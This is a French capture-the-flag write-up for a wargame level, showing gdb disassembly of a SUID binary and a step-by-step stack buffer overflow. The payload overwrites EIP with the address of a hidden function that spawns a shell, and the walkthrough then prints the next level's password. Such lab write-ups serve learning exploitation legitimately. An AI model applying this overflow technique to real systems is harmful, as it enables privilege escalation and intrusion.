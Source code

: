 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
  [...]
  ```
    - On a un binaire appartenant a level2 dans le home avec les droits SUID.

- `./level1`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - rien

- `gdb level1`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x08048444  run
      0x08048480  main
    [...]
    ```
    - On trouve une fonction run en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x08048480 <+0>:	push   ebp
       0x08048481 <+1>:	mov    ebp,esp
       0x08048483 <+3>:	and    esp,0xfffffff0
       0x08048486 <+6>:	sub    esp,0x50
       0x08048489 <+9>:	lea    eax,[esp+0x10]
       0x0804848d <+13>:	mov    DWORD PTR [esp],eax
       0x08048490 <+16>:	call   0x8048340 <gets@plt>
       0x08048495 <+21>:	leave
       0x08048496 <+22>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+6>
      - Initialisation de la mémoire (libère 80 octets pour la stack et aligne la mémoire)<br/><br/>
    - <+9> ... <+16>
      - Stocke l'adresse de esp + 16 dans eax
      - Stocke la valeur de eax (l'adresse de esp + 16) dans la stack (à esp)
      - Call gets() avec le paramètre stocké dans la stack<br/><br/>
    - <+21> ... <+22>
      - réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - Le call a gets() n'est pas protégé par une condition
    - La fonction run n'est pas appelée
    
  - `disas run`
    ```asm
    Dump of assembler code for function run:
       0x08048444 <+0>:	push   ebp
       0x08048445 <+1>:	mov    ebp,esp
       0x08048447 <+3>:	sub    esp,0x18
       0x0804844a <+6>:	mov    eax,ds:0x80497c0
       0x0804844f <+11>:	mov    edx,eax
       0x08048451 <+13>:	mov    eax,0x8048570
       0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
       0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
       0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
       0x0804846a <+38>:	mov    DWORD PTR [esp],eax
       0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
       0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
       0x08048479 <+53>:	call   0x8048360 <system@plt>
       0x0804847e <+58>:	leave
       0x0804847f <+59>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 24 octets pour la stack et aligne la mémoire)<br/><br/>
    - <+6> ... <+41>
      - Stocke la valeur dans le registre data segment à l'adresse 0x80497c0 dans eax, puis dans edx
        - `x/s 0x80497c0`
          - `0x80497c0 <stdout@@GLIBC_2.0>:	 ""`
      - Stocke la valeur à l'adresse 0x8048570 dans eax
        - `x/s 0x8048570`
          - `0x8048570:	 "Good... Wait what?\n"`
      - Stocke la valeur de edx (stdout) dans la stack (à esp + 12)
      - Stocke 0x13 (19) dans la stack (à esp + 8)
      - Stocke 0x1 (1) dans la stack (à esp + 4)
      - Stocke la valeur de eax dans la stack (à esp)
      - Call fwrite() avec les arguments stockés dans la stack<br/><br/>
    - <+46> ... <+53>
      - Stocke la valeur à l'adresse 0x8048584 dans la stack (à esp)
        - `x/s 0x8048584`
          - `0x8048584:	 "/bin/sh"`
      - Call system() avec l'argument stocké dans la stack<br/><br/>
    - <+58> ... <+59>
      - réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - La fonction run affiche "Good... Wait what?\n" sur la sortie standard et lance un shell via la commande system()

## Exploit

- L'objectif va être de forcer l'appel de la fonction run() par la fonction main() pour avoir notre shell.
- On va tirer avantage de la [vulnérabilité de gets à un buffer overflow](https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351) pour écrire l'adresse de run dans l'EIP, puisqu'il n'est pas protégé.
- Comme vu plus haut, main alloue 80 octets dans la stack pour ses variables, on va commencer par là:
  - `python -c 'print "a" * 80' > /tmp/exploit`
  - `gdb level1`
    - `run < /tmp/exploit`
      ```
      Starting program: /home/user/level1/level1 < /tmp/exploit

      Program received signal SIGSEGV, Segmentation fault.
      0x61616161 in ?? ()
      ```
      - Nice, on SegFault comme attendu et l'eip est réécrit avec des a: `0x61616161`

- On devrait pouvoir écraser la valeur de l'eip avec les 4 derniers octets, on vérifie avec un exploit de 76 "a" et 4 "b" :
  - `python -c 'print "a" * 76 + "b" * 4' > /tmp/exploit`
    ```
    Starting program: /home/user/level1/level1 < /tmp/exploit

    Program received signal SIGSEGV, Segmentation fault.
    0x62626262 in ?? ()
    ```
    - Parfait, l'EIP est écrasé par les 4 derniers octets: `0x62626262`
- On a vu lors de l'analyse que l'adresse de la fonction run() est 0x08048444, on la passe en [little endian](https://security.stackexchange.com/questions/177819/why-do-we-use-little-endian-in-buffer-overflow-attacks) avant de la load à la fin de notre exploit:
  - `python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit`
  - `cat /tmp/exploit | ./level1`
    ```
    Good... Wait what?
    Segmentation fault (core dumped)
    ```
    - Ok, on lance bien la fonction run(), mais le shell est fermé tout de suite, il faut [garder stdin ouvert avec cat](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process):
      > " The shell doesn't have any input, when it detects EOF it dies. " 
      - `cat /tmp/exploit - | ./level1`
        ```
        Good... Wait what?
        
        ```
        - `whoami`
          ```
          level2
          ```
          - `cat /home/user/level2/.pass`
            ```
            53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
            ```
